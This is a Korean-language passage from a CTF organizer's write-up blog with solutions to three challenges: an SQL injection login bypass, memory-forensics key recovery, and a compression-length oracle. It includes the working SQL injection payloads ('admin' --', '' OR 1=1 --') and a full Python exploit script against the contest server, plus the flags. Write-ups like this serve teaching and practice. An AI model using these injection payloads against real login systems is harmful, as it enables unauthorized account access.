

*그림 11. 로컬에서 재현한 급식기 로그인 화면.*
{: .text-center }

참가자에게는 의뢰문과 함께 운영 서비스와 동일한 취약점·화면 로직을 가진 `app.py`를 제공합니다. 공개 소스의 플래그만 `SHA{local_dummy_flag}`로 치환하고 템플릿, 정적 리소스, 운영 환경변수와 실제 플래그는 제외했습니다. 따라서 참가자는 무작위 대입이 아니라 제공된 소스를 읽어 의도한 취약점을 찾을 수 있습니다.

#### 1. 낮은 권한 화면 확인

게스트 계정은 사건 번호와 급식 이벤트까지 확인할 수 있지만 보호자와 반려동물 필드는 숨겨집니다. 참가자는 이 화면에서 조사할 사건이 `#404`이며, 다음 단계가 운영자 권한 획득임을 알 수 있습니다.



*그림 12. 게스트 계정에서 확인한 제한된 사건 정보.*
{: .text-center }

```text
로그인 계정 : guest / guest
사건 번호   : #404
목걸이 태그 : MP-C7:04:04
제한된 정보 : 반려동물과 보호자 정보
```

#### 2. 로그인 SQL Injection

로그인 기능은 사용자가 입력한 값을 다음 SQL 문자열에 직접 삽입합니다.

```sql
SELECT id, username, role FROM accounts
WHERE username = '<username>' AND password = '<password>' LIMIT 1
```

사용자 이름에 SQLite 주석을 삽입하면 관리자 암호 조건을 제거할 수 있습니다.

```text
username: admin' --
password: x
```

실행되는 쿼리는 다음과 같이 바뀝니다.

```sql
SELECT id, username, role FROM accounts
WHERE username = 'admin' -- ' AND password = 'x' LIMIT 1
```

`--` 뒤의 암호 비교와 `LIMIT 1`은 SQLite 주석으로 처리됩니다. `admin` 행이 선택되면서 애플리케이션은 세션에 운영자 역할을 기록합니다. 다음 입력도 관리자 행이 먼저 삽입되어 있으므로 같은 결과를 만듭니다.

```text
username: ' OR 1=1 --
password: x
```

소스에는 Flask session을 위조하거나 관리자 암호를 추측하는 다른 지름길이 없도록 구성했습니다. 운영 서버의 `SECRET_KEY`와 관리자 암호는 프로세스를 시작할 때 무작위로 생성됩니다. 따라서 공개 `app.py`만으로 세션을 서명하거나 암호를 알아낼 수 없으며, 로그인 쿼리의 문자열 결합이 의도한 공격 지점입니다.

운영자 세션으로 이벤트 `#404`를 다시 열면 고양이 이름 `건공이`, 보호자 계정과 사건 원인을 확인할 수 있습니다. 인접 세대의 태그가 공유 급식 그룹에 잘못 연결된 것이 원인이었습니다.



*그림 13. 운영자 권한으로 다시 확인한 사건 정보.*
{: .text-center }

#### 3. 사건 확인 코드 제출

운영자 화면에는 다음 정보가 함께 표시됩니다.

```text
고양이 이름 : 건공이
보호자 계정 : NEXTDOOR_302
사건 원인   : 인접 세대 태그가 공유 급식 그룹에 연결됨
```

이벤트 상세 화면에 표시된 사건 확인 코드만 대회 플랫폼에 제출합니다. 고양이 이름과 보호자 계정은 의뢰의 결론을 설명하는 정보이며 플래그 문자열에 별도로 합치지 않습니다.

#### 4. 출제 의도

이 의뢰는 추가 의뢰를 한 문제도 시작하지 못하는 팀이 생기지 않도록 배치한 초급 SQL Injection 문제입니다. 소스에서 취약한 쿼리를 찾고 직접 입력을 구성하면 짧은 과정으로 해결할 수 있게 했으며, 처음 Web 문제를 접한 참가자도 화이트박스 분석과 권한 우회의 기본 흐름을 경험하도록 구성했습니다.

기술 구조는 단순하지만 대회의 의뢰 형식에 맞게 스마트 급식기, 새벽 4시 04분의 이벤트와 사라진 참치를 하나의 사건으로 연결하는 과정이 필요했습니다. 쉬운 문제도 정답 입력만 남겨 두지 않고 대회 전체의 탐정사무소 콘셉트 안에서 자연스럽게 읽히도록 구성했습니다.

```text
SHA{wh0_ate_the_tuna_at_0404}
```

#### 5. exploit

```python
#!/usr/bin/env python3
import http.cookiejar
import re
import sys
import urllib.parse
import urllib.request


def main() -> int:
    base_url = (
        sys.argv[1] if len(sys.argv) > 1 else "http://web.roomescapectf2026.site:40584"
    ).rstrip("/")
    opener = urllib.request.build_opener(
        urllib.request.HTTPCookieProcessor(http.cookiejar.CookieJar())
    )

    body = urllib.parse.urlencode({"username": "admin' -- ", "password": "x"}).encode()
    opener.open(f"{base_url}/login", body, timeout=5).read()
    page = opener.open(f"{base_url}/events/404", timeout=5).read()

    match = re.search(rb"SHA\{[A-Za-z0-9_!?.:-]+\}", page)
    if match is None:
        print("[-] flag not found", file=sys.stderr)
        return 1

    print(match.group(0).decode())
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```
### 2.8 키는 사라졌지만, 흔적은 남아 있을까요?

| 항목 | 내용 |
|---|---|
| 의뢰인 | `N0_KEY_LEFT` |
| 분야 | Misc / Forensics |
| 난이도 | 중 |
| 제공 파일 | `KEYPSAKE-player.zip` |
| 핵심 원리 | 메모리에 남은 width-5 wNAF 잔여값으로 소거된 타원곡선 스칼라 복구 |
| 목표 | 소거된 타원곡선 스칼라의 흔적을 복구해 삭제 PDF 복원 |
| 플래그 | `SHA{wh3n_k3ys_v4n1sh_m3m0ry_r3m3mb3rs}` |



*그림 14. 삭제 기록 복구 의뢰 화면.*
{: .text-center }

이 의뢰는 실행 중인 서비스의 MiniDump와 암호화된 백업 볼륨을 연결해 삭제된 문서를 복구하는 정적 포렌식 문제입니다. 참가자에게는 telemetry provider DLL, 압축된 메모리 덤프와 암호화 볼륨을 제공합니다.

```text
telemetry_provider.dll
RecordsArchiveService.dmp.zst
records_backup.vhd.kpsk
```

암호화에 사용한 일회성 스칼라 자체는 소거됐지만, 스칼라 곱셈을 준비하던 provider의 width-5 wNAF 표현 일부가 메모리에 남아 있습니다.

#### 1. 볼륨 푸터와 provider image 연결

먼저 암호화 볼륨 푸터의 CRC32와 BLAKE2s를 검증해 context, volume ID, 공개점과 래핑된 키를 얻습니다. MiniDump에서는 provider image와 두 잔여값 체인을 찾고 셔플과 마스크를 역으로 적용해 257개의 signed digit과 correction bitmap을 복원합니다.

덤프의 context record에는 provider 주소가 cookie로 남아 있지만 원래 private image는 지워져 있습니다. 제공된 DLL에서 provider interface, page 구조, pointer cookie와 payload transform을 분석하고, 덤프에 흩어진 PE section fragment를 재구성해 같은 image인지 확인합니다.

#### 2. 두 잔여값 체인과 signed digit 복구

context에는 digit chain과 reliability chain의 head cookie가 따로 있습니다. page의 SipHash tag와 Gray-coded ordinal을 검증하며 연결하면 각각 290바이트와 128바이트가 됩니다. digit chain에는 257개 masked digit과 suspicious bitmap이, reliability chain에는 실제 correction bitmap이 들어 있습니다.

표현은 width-5 wNAF이므로 비영점 digit은 `-15..15` 범위의 홀수이고 비영점 사이에는 최소 다섯 자리의 간격이 있습니다. 이 조건과 provider encoding을 함께 적용해 손상 digit의 후보를 제한합니다.

#### 3. EC meet-in-the-middle로 스칼라 복구

wNAF 조건과 checkpoint의 modular relation으로 손상된 digit 후보를 줄인 뒤, 타원곡선 meet-in-the-middle로 공개점 `Q = eG`와 일치하는 스칼라를 찾습니다. 복구한 스칼라로 ECDH를 수행하고 AES-KWP 무결성 검사를 통과하면 master key를 얻을 수 있습니다.

```text
e = known + left + right  (mod n)
Q - known*G = left*G + right*G
```

왼쪽 후보의 EC point를 저장하고 오른쪽 후보마다 필요한 point를 조회합니다. 선택한 스칼라로 계산한 공개점이 푸터의 ephemeral point와 정확히 같아야 다음 단계로 진행합니다.

#### 4. VHD와 삭제 PDF 복원

마지막으로 encrypted region map을 복호화하고 96개의 data region과 VHD 푸터를 재배치합니다. 복원된 FAT16 볼륨의 journal에서 삭제된 PDF의 최신 유효 revision을 선택하고 incremental update의 receipt를 해제하면 플래그를 확인할 수 있습니다.

복구 과정마다 AES-KWP 무결성, manifest와 97개 region의 GCM tag, VHD 푸터 checksum, FAT 사본, journal commit digest와 fragment CRC를 검증합니다. 마지막 PDF의 `/RecordsRecovery` object에 있는 `KRCPT3` receipt를 해제해 플래그를 얻습니다.

```text
SHA{wh3n_k3ys_v4n1sh_m3m0ry_r3m3mb3rs}
```

#### 5. exploit

전체 익스플로잇 코드는 [GitHub 저장소](https://github.com/GEONWOOHAN/room_escape_ctf/blob/main/blog-exploits/extra-requests/keypsake-exploit.py)에서 확인할 수 있습니다.
### 2.9 나를 쫓아낸 회사의 진짜 복구 기록을 가져오세요

| 항목 | 내용 |
|---|---|
| 의뢰인 | `EX-DIRECTOR_11` |
| 분야 | Web |
| 난이도 | 하 |
| 제공 파일 | `Vault-Boundary-player.zip` |
| 핵심 원리 | 균형 epoch로 패딩을 상쇄하는 압축 길이 오라클 |
| 목표 | 압축 후 버킷 크기만 보이는 백업에서 실제 `recovery` 레코드 복구 |
| 플래그 | `SHA{a1b2c3d4e5f6-90d2}` |



*그림 15. 전자 금고 복구 기록 의뢰 화면.*
{: .text-center }

이 의뢰는 손님 계정의 공유 메모를 관리자 백업에 섞어 넣고, 압축된 결과의 길이만 관찰해 실제 `recovery` 레코드를 복구하는 길이 오라클 문제입니다.

백업 본문은 압축 후 AES-GCM으로 암호화되며 참가자에게는 16바이트 버킷 단위의 크기만 보입니다. 레코드 배치와 패딩 순서는 요청 카운터, 스타일, 팀과 epoch에 따라 바뀌고 여러 미끼 레코드도 함께 존재합니다.

#### 1. WASM 관측 표본 분석

`schema.wasm`의 `public`과 `samples` custom section을 읽으면 공개 플래그 형식과 64개의 관측 표본을 얻을 수 있습니다. 표본 크기 차이의 최대공약수로 보고 크기 버킷이 16바이트임을 확인하고, 연속 요청을 비교해 16회가 하나의 균형 epoch를 이룬다는 사실을 찾습니다.

`public` section에는 사용할 수 있는 문자, payload 길이, CRC 식별자와 플래그 형식만 들어 있습니다. 실제 recovery 값이나 서버 패딩 비밀값은 포함하지 않습니다. `samples`에는 같은 알려진 note를 보낸 64개 `(counter, seed, style, filler, size)` 관측만 들어 있으므로, 참가자가 직접 주기와 layout 규칙을 추론해야 합니다.

#### 2. `layoutgen` 역공학

심볼이 제거된 `layoutgen`을 분석하면 요청 카운터, seed와 style에서 네 가지 배치 유형을 선택하는 방식을 복구할 수 있습니다. 이 중 실제 recovery 레코드와 참가자의 probe를 같은 압축 문맥에 두는 canonical layout과 cover를 선택합니다.

네 배치 유형은 xorshift, avalanche, rotate-xorshift와 rotate-avalanche 계열입니다. 배포 ELF는 고정 self-test만 수행하고 입력을 받아 결과를 계산해 주지 않으므로, 분석한 전이를 별도로 구현해야 합니다. 64개 표본을 모두 재현하는 조합을 찾으면 canonical layout 2와 cover 0을 얻을 수 있습니다.

#### 3. 균형 epoch로 패딩 상쇄

개별 응답 크기는 패딩 순서 때문에 그대로 비교할 수 없습니다. 요청 카운터를 16회 epoch 경계에 맞추고 같은 후보를 한 epoch 동안 측정합니다. 표본에서 확인한 균형성 때문에 16개 결과의 합은 팀별 패딩의 배치 순서와 무관하게 안정적으로 비교할 수 있습니다.

```python
def measure_candidate(prefix, candidate):
    probe = "recovery=" + prefix + candidate
    sizes = measure_one_balanced_epoch(probe)  # 16회
    return sum(sizes)
```

#### 4. 한 글자씩 recovery 복구

알고 있는 접두사 `recovery=SHA{` 뒤에 후보 문자를 붙여 공유 메모를 만듭니다. 후보마다 16회 측정값을 합산하면 개별 요청의 팀별 패딩은 상쇄되고, 실제 recovery와 더 길게 일치하는 후보의 합이 가장 작아집니다.

이 과정을 반복해 12자리 payload를 복구한 뒤 CRC16-CCITT를 계산합니다. 전체 플래그를 다시 probe로 보내 길이 오라클에서 최종 일치를 확인합니다. 여러 내부 측정은 배치 API로 묶어 네트워크 요청 수를 줄였으며, 개인 Access Token으로 확인한 `team_id`를 기준으로 요청 카운터와 측정 예산을 분리했습니다.

```text
알려진 접두사 : SHA{
복구 payload  : a1b2c3d4e5f6
CRC16-CCITT   : 90d2
```

공식 풀이에는 6,928회의 내부 측정이 필요하지만 16개 epoch를 배치 API 한 번에 묶어 실제 HTTP 요청은 약 28회로 줄였습니다. 측정 예산은 HTTP 요청 수가 아니라 배치 내부의 실제 측정 횟수를 기준으로 차감했습니다.

```text
SHA{a1b2c3d4e5f6-90d2}
```

#### 5. exploit

전체 익스플로잇 코드는 [GitHub 저장소](https://github.com/GEONWOOHAN/room_escape_ctf/blob/main/blog-exploits/extra-requests/vault-boundary-exploit.py)에서 확인할 수 있습니다.
## 3. 마치며

추가 의뢰는 메인 시나리오의 현장 조사와 별도로 진행할 수 있도록 구성했습니다. 웹 서비스의 소스와 동작을 살펴보는 문제부터 커널 객체의 수명 분석, 가상 머신의 최적화 동작 추적, 암호화된 저장소의 복구까지 다양한 주제를 다뤘습니다. 참가자는 각 의뢰서에 담긴 상황을 바탕으로 제공 파일이나 서비스에서 단서를 찾고, 분석 결과를 플래그와 라이트업으로 정리했습니다.

문제마다 접근 방식과 필요한 배경지식은 달랐지만, 의뢰의 단서를 하나씩 확인해 결론에 이르는 과정은 공통적이었습니다. 이 글의 문제별 풀이와 익스플로잇은 그 과정을 다시 따라가 볼 수 있도록 정리한 기록입니다.
